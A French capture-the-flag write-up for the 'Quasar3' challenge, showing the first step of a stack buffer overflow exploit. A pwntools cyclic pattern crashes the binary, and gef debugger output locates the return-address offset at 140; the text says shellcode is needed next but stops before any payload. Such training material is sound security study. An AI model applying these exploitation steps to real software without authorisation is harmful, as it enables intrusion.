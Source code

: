 ## Quasar3

Pour ce challenge après avoir trouvé le buffer overflow, il est nécessaire de placer un shellcode sur la stack.

```bash
In [1]: from pwn import *

In [2]: p = process("./quasar3")
[x] Starting local process './quasar3'
[+] Starting local process './quasar3': pid 2424

In [3]: buff = cyclic(200)

In [4]: p.sendline(buff)

In [5]: cyclic_find("kaab")
Out[5]: 140
```

```bash
Program received signal SIGSEGV, Segmentation fault.
0x6261616b in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffe428a0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$ebx   : 0x62616169 ("iaab"?)
$ecx   : 0xf7f4c5c0  →  0xfbad2088
$edx   : 0xf7f4d89c  →  0x00000000
$esp   : 0xffe42930  →  "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
$ebp   : 0x6261616a ("jaab"?)
$esi   : 0xf7f4c000  →  0x001d9d6c
$edi   : 0xf7f4c000  →  0x001d9d6c
$eip   : 0x6261616b ("kaab"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffe42930│+0x0000: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"    ← $esp
0xffe42934│+0x0004: "maabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabya[...]"
0xffe42938│+0x0008: "naaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
0xffe4293c│+0x000c: "oaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
0xffe42940│+0x0010: "paabqaabraabsaabtaabuaabvaabwaabxaabyaab"
0xffe42944│+0x0014: "qaabraabsaabtaabuaabvaabwaabxaabyaab"
0xffe42948│+0x0018: "raabsaabtaabuaabvaabwaabxaabyaab"
0xffe4294c│+0x001c: "saabtaabuaabvaabwaabxaabyaab"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6261616b
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "quasar3", stopped 0x6261616b in ?? (), reason: SIGSEGV
```
